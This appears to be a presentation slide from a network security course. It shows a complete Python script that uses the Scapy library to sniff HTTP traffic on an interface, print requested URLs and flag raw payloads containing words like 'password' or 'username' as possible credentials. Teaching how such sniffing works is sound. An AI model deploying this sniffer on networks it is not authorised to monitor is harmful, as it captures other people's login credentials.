

# Scapy Library (In a script)
#!/usr/bin/env python
import scapy.all as scapy
import argparse
from scapy.layers import http
def chooseInterface():
   parser = argparse.ArgumentParser()
   parser.add_argument("-i", "--interface", dest="interface", help="Specify interface on which to sniff packets")
   arguments = parser.parse_args()
   return arguments.interface

def sniff(iface):
   scapy.sniff(iface=iface, store=False, prn=processPacket)

def processPacket(packet):
   if packet.haslayer(http.HTTPRequest):
       print("[+] Http Request >> " + packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path)
       if packet.haslayer(scapy.Raw):
           load = packet[scapy.Raw].load
           keys = ["username", "password", "pass", "email"]
           for key in keys:
               if key in load:
                   print("\n\n\n[+] Possible password/username >> " + load + "\n\n\n")
                   break
iface = chooseInterface()
sniff(iface)